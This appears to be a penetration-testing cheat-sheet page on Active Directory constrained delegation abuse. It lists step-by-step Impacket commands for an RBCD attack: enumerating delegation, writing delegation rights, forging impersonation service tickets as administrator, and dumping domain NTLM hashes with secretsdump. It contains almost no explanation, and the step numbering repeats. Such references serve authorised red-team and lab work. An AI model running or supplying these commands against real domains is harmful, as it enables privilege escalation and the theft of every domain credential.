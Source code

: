 ```yaml
---
title: "Constrained Delegation"
date: 2024-8-2
tags: ["Credential Dumping", "Impacket", "Pass-The-Ticket", "Silver Ticket", "Ticket Granting Ticket", "Constrained Delegation", "Active Directory", "Windows", "RBCD"]
---
```


### Abuse #1: RBCD Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Find delegation

```console
# Check delegation
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USER>' -dc-ip <DC> -hashes :<HASH> -k
```

#### 2. Get a service ticket

```console
impacket-getST -spn <SERVICE>/<TARGET_DOMAIN> -impersonate administrator '<DOMAIN>/<USER>' -hashes :<HASH> -self
```

```console
# Check forwardable flag
describeTicket.py <TICKET_1>.ccache
```

#### 3. RBCD Attack

```console
# Add delegation
impacket-rbcd '<DOMAIN>/<USER>' -hashes :<HASH> -k -delegate-from <USER> -delegate-to <TARGET_1> -action write -dc-ip <DC> -use-ldaps
```

```console
# Check
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USER>' -dc-ip <DC> -hashes :<HASH> -k
```

#### 4. Get a service ticket

```console
# Impersonate
impacket-getST '<DOMAIN>/<USER>:<PASSWORD>' -spn <SERVICE>/<TARGET_DOMAIN> -impersonate <TARGET_2>
```

```console
# Check forwardable flag
describeTicket.py <TICKET_2>.ccache
```

#### 5. Impersonate

```console
impacket-getST -spn <SERVICE>/<TARGET_DOMAIN> -impersonate <TARGET_2> '<DOMAIN>/<TARGET_1>' -hashes :<HASH> -additional-ticket <TICKET_2>.ccache
```

#### 4. Secrets Dump

```console
export KRB5CCNAME='<TICKET_2>.ccache'
```

```console
impacket-secretsdump -no-pass -k <DC> -just-dc-ntlm
```

{{< /tabcontent >}}

